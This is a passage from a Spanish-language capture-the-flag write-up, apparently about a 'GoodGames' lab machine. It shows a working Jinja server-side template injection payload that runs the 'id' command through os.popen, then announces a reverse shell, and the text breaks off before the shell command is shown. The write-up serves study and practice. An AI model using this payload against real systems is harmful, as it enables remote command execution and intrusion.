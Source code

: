 
## 🔍 SSTI en plantilla de perfil

Detectamos una vulnerabilidad SSTI (Server Side Template Injection) al modificar el nombre en el perfil.

```jinja
{{ namespace.__init__.__globals__.os.popen('id').read() }}
```

![Ejecución de comandos con SSTI](/assets/images/goodgames/11-ssti-root-check.png)

---

## 🎯 Preparando una reverse shell

Enviamos una reverse shell a nuestra máquina desde la vulnerabilidad SSTI:

